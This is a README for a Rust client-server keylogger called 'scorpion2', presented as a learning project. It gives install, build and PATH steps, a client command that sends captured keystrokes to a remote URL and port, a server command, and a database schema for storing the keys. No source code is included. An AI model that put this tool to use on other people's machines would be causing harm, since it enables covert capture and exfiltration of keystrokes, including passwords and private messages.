 # scorpion2
A better client-server klogger, purpose of learning rust

### Instalation

`git clone https://github.com/drakegawain/scorpion2 ~/.scorpion2`

#### Use

On client side

`cargo run -- client -u <URL to send keys> -p <PORT> -i <ID of the machine> -s`

On server side

`cargo run -- server -u <URL to receive keys> -p <PORT>  -d <DATABASE url>`

#### Database

Set a schema like

`CREATE DATABASE text(
id VARCHAR(30),
date DATE,
text varchar(1000));`

to ensure db can catch the keys


### Install to path

Add this lines to bottom of .bashrc

`export SCORPION2_INSTALL = "$HOME/.scorpion2/target/release"`

`export PATH = $SCORPION2_INSTALL:$PATH`

### Build

Run 

`cd ~/.scorpion2
cargo build --release`

And thats it!

### Commands

##### Client

`scorpion2 client -u "127.0.0.1" -p 8000 -i "ths"`

##### Server

`scorpion2 server -u "127.0.0.1" -p 8000 -d "mysql://user:user@127.0.0.1/scorpion2"`

